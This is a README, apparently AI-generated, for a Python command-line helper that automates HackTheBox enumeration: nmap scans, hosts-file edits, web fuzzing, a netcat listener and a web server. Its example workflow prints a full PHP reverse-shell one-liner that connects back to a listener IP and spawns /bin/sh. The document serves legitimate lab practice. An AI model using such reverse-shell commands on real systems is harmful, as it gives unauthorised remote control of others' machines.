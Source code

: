 # htb-scripts
Automation of htb scripts from LLM while solving htb machines

Certainly! Below is the documentation for the script, detailing its usage, commands, and functionalities.

---

# HTB Enumerator Tool Documentation

## Overview

The HTB Enumerator Tool is a modular and interactive command-line interface (CLI) designed to assist in the enumeration of HackTheBox (HTB) machines. It provides various functionalities such as running Nmap scans, updating `/etc/hosts`, starting web servers, and more. The tool supports command auto-completion and command history for a user-friendly experience.

## Installation

### Prerequisites

- Python 3.x
- `termcolor` module: Install via `pip install termcolor`
- `readline` module: Typically included with Python on Unix-like systems

### Required Tools

The script checks for and installs the following tools if they are not already present:
- `nmap`
- `gobuster`
- `ffuf`
- `whatweb`

## Usage

### Running the Script

To run the script, use the following command:

```bash
sudo python3 htb_enum.py
```

**Note**: The script must be run with root privileges (`sudo`) to update `/etc/hosts`.

### Interactive CLI

Once the script is running, you will be presented with a prompt:

```
htb_enum >
```

You can enter various commands to perform different tasks. The available commands are listed below.

### Commands

#### `nmap`

Sets the IP address for the target machine.

```
htb_enum > nmap
Set IP: <IP_ADDRESS>
```

#### `run`

Runs an Nmap scan on the set IP address.

```
htb_enum > run
```

#### `host`

Sets the hostname for the target machine and updates `/etc/hosts`.

```
htb_enum > host
Set Hostname: <HOSTNAME>
```

#### `check_ports`

Checks for open web ports (80, 443, 8080, 5000) from the Nmap scan results.

```
htb_enum > check_ports
```

#### `enumerate_web`

Enumerates web servers on the open ports found.

```
htb_enum > enumerate_web
```

#### `start_server`

Starts a Python3 web server on a specified port.

```
htb_enum > start_server
Enter port for Python3 web server: <PORT>
```

#### `nc_listener`

Starts a Netcat listener on a specified port.

```
htb_enum > nc_listener
Enter port for nc listener: <PORT>
```

#### `php_shell`

Generates a PHP reverse shell command for a specified IP and port.

```
htb_enum > php_shell
Enter your IP for reverse shell: <YOUR_IP>
Enter your port for reverse shell: <YOUR_PORT>
```

#### `exit`

Exits the tool.

```
htb_enum > exit
```

### Auto-completion and Command History

- **Auto-completion**: Press the `Tab` key to auto-complete commands.
- **Command History**: Use the `Up` and `Down` arrow keys to navigate through previously entered commands.

## Example Workflow

1. **Set IP Address**:
   ```
   htb_enum > nmap
   Set IP: 10.10.10.10
   IP is set to 10.10.10.10
   ```

2. **Run Nmap Scan**:
   ```
   htb_enum > run
   Running Nmap scan... 🔍
   Nmap scan completed. Results saved in nmap_scan.txt ✅
   ```

3. **Set Hostname and Update `/etc/hosts`**:
   ```
   htb_enum > host
   Set Hostname: target
   Hostname is set to target
   Updating /etc/hosts... 🛠️
   Added 10.10.10.10    target.htb to /etc/hosts ✅
   ```

4. **Check Open Web Ports**:
   ```
   htb_enum > check_ports
   Open web ports: [80, 443]
   ```

5. **Enumerate Web Servers**:
   ```
   htb_enum > enumerate_web
   Enumerating web server on port 80... 🌐
   ...
   Enumerating web server on port 443... 🌐
   ...
   ```

6. **Start Python3 Web Server**:
   ```
   htb_enum > start_server
   Enter port for Python3 web server: 8000
   Starting Python3 web server on port 8000... 🌐
   ```

7. **Start Netcat Listener**:
   ```
   htb_enum > nc_listener
   Enter port for nc listener: 4444
   Starting nc listener on port 4444... 📡
   ```

8. **Generate PHP Reverse Shell Command**:
   ```
   htb_enum > php_shell
   Enter your IP for reverse shell: 192.168.1.100
   Enter your port for reverse shell: 4444
   PHP reverse shell command: php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
   ```

## Error Handling

- **EOFError**: If you accidentally press `Ctrl+D`, the script will prompt you to use the `exit` command to quit.
- **KeyboardInterrupt**: If you press `Ctrl+C`, the script will remind you to use the `exit` command to quit.

## Exiting the Tool

To exit the tool, simply type:

```
htb_enum > exit
```

## Saving Command History

The command history is saved to `~/.htb_enum_history` and is loaded when the tool starts. This allows you to navigate through previous commands using the arrow keys.

## Conclusion

The HTB Enumerator Tool is designed to streamline the enumeration process for HackTheBox machines, providing a modular and interactive interface. With command auto-completion, history navigation, and a variety of built-in functionalities, it aims to enhance the efficiency and effectiveness of your enumeration tasks.

---

Feel free to customize and extend the tool as needed to fit your specific requirements. Happy enumerating!
